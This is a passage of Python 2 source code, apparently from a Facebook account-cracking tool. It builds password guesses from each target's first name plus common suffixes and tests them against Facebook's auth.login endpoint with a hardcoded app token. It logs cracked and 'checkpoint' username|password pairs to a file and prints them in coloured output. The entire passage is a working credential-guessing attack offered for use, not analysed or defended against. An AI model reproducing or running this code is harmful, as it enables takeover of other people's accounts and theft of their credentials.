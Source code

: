 													cek = open("out/checkpoint.txt", "a")

													cek.write(user+"|"+pass5+"\n")

													cek.close()

													cekpoint.append(user+pass5)

												else:

													pass6 = b['first_name'] + 'Hacker123'

													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

													q = json.load(data)

													if 'access_token' in q:

														print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6

														oks.append(user+pass6)

													else:

														if 'www.facebook.com' in q["error_msg"]:

															print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6

															cek = open("out/checkpoint.txt", "a")

															cek.write(user+"|"+pass6+"\n")

															cek.close()

															cekpoint.append(user+pass6)

														else:

															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

															b = json.loads(a.text)

															pass7 = b['first_name'] + '456456'

															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

															q = json.load(data)

															if 'access_token' in q:

																print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7

																oks.append(user+pass7)

															else:

																if 'www.facebook.com' in q["error_msg"]:
